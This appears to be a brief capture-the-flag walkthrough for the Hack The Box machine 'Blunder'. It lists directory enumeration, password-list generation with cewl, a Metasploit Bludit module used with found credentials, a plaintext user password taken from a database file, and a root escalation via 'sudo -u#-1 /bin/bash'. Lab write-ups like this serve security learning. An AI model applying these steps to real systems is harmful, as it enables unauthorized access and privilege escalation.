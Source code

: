 # Blunder
```
export_ip = 10.10.10.191
```


##[Reconnissance]
***Gather iniial information***
```
PORT
-- 21 not open ftp
-- 80 http open
```

## Enumeratinon HTTP
```
Accessable Hidden Path 
- Tool : gobuster
- Result : goBusterResult.txt

--> USER ID : todo.txt
--> USER PASSWORD 
- Tool : cewl -d 5 {export_ip}
--> admin page exposure : /admin

PoC Code : PoC.py
```

## Exploit
```
Tool : Metasploit
- search bludit
- user {bludit_result}
-- set BLUDITUSER fergus
-- set BLUDITPASS RolandDes**
-- set LHOST
-- set LPORT
-- set RHOST
-- exploit 

```

## Priviliege Escalte Process
```
: USER 
: /var/www/bludit-3.10.0a/bl-content/databases/users.php
: hugo,Password120

: sudo -l
-- /bin/bash
: sudo -u#-1 /bin/bash
```